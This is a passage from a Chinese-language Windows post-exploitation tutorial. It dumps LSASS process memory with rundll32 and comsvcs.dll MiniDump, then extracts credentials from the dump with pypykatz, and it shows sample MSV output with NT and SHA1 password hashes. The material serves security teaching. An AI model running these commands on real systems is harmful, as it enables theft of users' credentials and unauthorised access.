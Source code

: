 ```shell
# 使用 rundll32.exe 转储 LSASS 进程内存
# 在 CMD 查找 LSASS 的 PID
tasklist /svc
# 在 Powershell 查找 LSASS 的 PID
Get-Process lsass

# 创建 LSASS.dump
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

#### 2. 使用 Pypykatz 提取凭据

> 我们可以使用 [pypykatz](https://github.com/skelsec/pypykatz) 尝试从 .dmp 文件中提取凭据， 这是由 python 编写的Mimikatz 的实现

```shell
# 运行 Pypykatz
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

1.  MSV 信息 --> [官方文档](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package)

    ```shell
    sid S-1-5-21-4019466498-1700476312-3544718034-1001
    luid 1354633
    	== MSV ==
    		Username: bob
    		Domain: DESKTOP-33E7O54
    		LM: NA
    		NT: 64f12cddaa88057e06a81b54e73b949b
    		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
    		DPAPI: NA
    ```

    > MSV 是 Windows 的一个身份验证包，LSA 调用它来验证针对 SAM 数据库的登录尝试， Pypykatz 提取与存储在 LSASS 进程内存中的 bob 用户帐户登录会话相关联的`SID`、`Username`、`Domain`甚至`NT`&密码哈希
2.  WDIGEST

    ```shell
    == WDIGEST [14ab89]==
    		username bob
    		domainname DESKTOP-33E7O54
    		password None
    		password (hex)
    ```

    > WDIGEST 是一个较旧的身份认证协议，LSASS 使用明文缓存 WDIGEST 使用的凭据，
3.  Kerberos

    ```shell
    == Kerberos ==
        Username: bob
        Domain: DESKTOP-33E7O54
    ```
